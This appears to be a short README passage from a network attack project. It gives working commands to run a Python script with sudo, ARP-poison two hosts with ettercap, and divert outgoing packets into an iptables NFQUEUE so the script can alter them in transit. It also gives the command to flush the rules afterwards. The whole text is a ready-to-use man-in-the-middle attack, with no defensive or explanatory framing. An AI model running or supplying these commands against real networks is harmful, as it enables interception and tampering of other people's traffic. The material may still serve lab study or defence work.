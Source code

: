 
1. Run the python scrypt on sudo mode
2. Start ARP poisoning with:
   ```bash
   sudo ettercap -T -i eth0 -M arp /192.168.39.110// /192.168.37.163//
   ```
   exit with `q`
3. Put packet on queue for being modified by the Python script with: 
   ```bash
   sudo iptables -I OUTPUT -d 192.168.0.0/16 -j NFQUEUE --queue-num 1
   ```
   Return to normal mode with: 
   ```bash
   sudo iptables -F
   ```